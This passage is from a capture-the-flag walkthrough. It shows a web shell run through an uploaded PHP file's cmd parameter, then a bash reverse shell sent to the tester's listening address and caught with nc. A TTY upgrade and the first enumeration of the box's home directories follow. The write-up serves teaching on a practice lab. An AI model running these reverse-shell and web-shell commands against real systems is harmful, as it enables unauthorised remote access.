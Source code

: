Now I’ll add `?cmd=[command]` to the url, and it works:

![image-20230515163515872](/img/image-20230515163515872.png)

I’ll start `nc` listening on 443 and send this [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in Firefox:

```

http://oxdf.microblog.htb/uploads/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

There’s a connection:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.213 41734
bash: cannot set terminal process group (609): Inappropriate ioctl for device
bash: no job control in this shell
www-data@format:~/microblog/oxdf/uploads$

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@format:~/microblog/oxdf/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@format:~/microblog/oxdf/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@format:~/microblog/oxdf/uploads$

```

## Shell as cooper

### Enumeration

#### Home Directories

There are two home directories on the box, `cooper` and `git`:

```

www-data@format:/home$ ls
cooper  git

```
